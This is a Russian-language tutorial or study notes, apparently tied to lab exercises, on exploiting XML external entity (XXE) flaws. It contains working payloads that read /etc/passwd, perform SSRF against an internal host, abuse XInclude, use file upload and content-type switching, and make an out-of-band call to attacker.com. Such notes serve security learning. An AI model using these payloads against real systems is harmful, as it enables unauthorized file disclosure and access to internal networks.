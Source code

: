# Использование XXE для извлечения файлов

пример, где приложение использует XML для проверки уровня запасов товара. Злоумышленник может воспользоваться уязвимостью XXE для извлечения содержимого файла `/etc/passwd`.

1. **Исходный XML-запрос**:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>381</productId>
</stockCheck>
```

2. **Внедрение XXE**:  
	Злоумышленник изменяет запрос, добавляя определение внешней сущности, которая ссылается на файл `/etc/passwd`:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
	<productId>&xxe;</productId>
</stockCheck>
```


3. **Результат**:  
	Если приложение уязвимо к XXE, оно обработает внешнюю сущность `&xxe;` и вернет содержимое файла `/etc/passwd` в ответе:

#### Примечание
При реальных уязвимостях XXE в отправленном XML часто будет большое количество значений данных, любое из которых может быть использовано в ответе приложения. Для систематического тестирования на уязвимости XXE вам, как правило, нужно будет протестировать каждый узел данных в XML по отдельности, используя определенную вами сущность и проверяя, появляется ли она в ответе.


# Использование XXE для проведения SSRF-атак

- Поддержка внешней сущности http/https
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck>
	<foo>&xxe;</foo>
</stockCheck>
```

# Слепые уязвимости XXE

Многие случаи уязвимостей XXE являются слепыми. Это означает, что приложение не возвращает значения каких-либо определенных внешних сущностей в своих ответах, и поэтому прямое извлечение файлов на стороне сервера невозможно.

### XInclude атаки
Механизм для включения внешних ресурсов или фрагментов данных в XML-документы.

- Если парсер обрабатывает XInclude и не настроен безопасно, это может быть использовано для атак, похожих на XXE (XML External Entity), даже если обработка DTD и внешних сущностей отключена.

Пример чтения файла `/etc/passwd`:
```
<?xml version="1.0"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

#### Лаба
[[Лаборатория эксплуатация Xinclude для получения файлов]]

### Атаки XXE через загрузку файлов
Некоторые приложения позволяют загружать файлы, которые затем обрабатываются как XML. Если приложение не проверяет тип файла или содержимое, можно загрузить вредоносный XML-файл с внедренными внешними сущностями.

XML-файл с внедренной внешней сущностью:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

#### Лаба
[[Лаборатория эксплуатация xxe через загрузку файла изображения]]

### Атаки XXE через измененный тип контента
Иногда приложение может обрабатывать XML, даже если запрос отправляется с другим Content-Type (например, `application/json`). Изменение типа контента на `application/xml` или `text/xml` может привести к успешной эксплуатации XXE.

Изменить тип контента на `application/xml` и отправить XML-документ с внедренной внешней сущностью:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

### Out-of-Band (OOB) XXE
Если приложение не возвращает данные напрямую, можно использовать Out-of-Band каналы для извлечения данных. Например, отправить данные на внешний сервер, контролируемый злоумышленником.

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com/oob"> %xxe; ]>
<foo></foo>
```
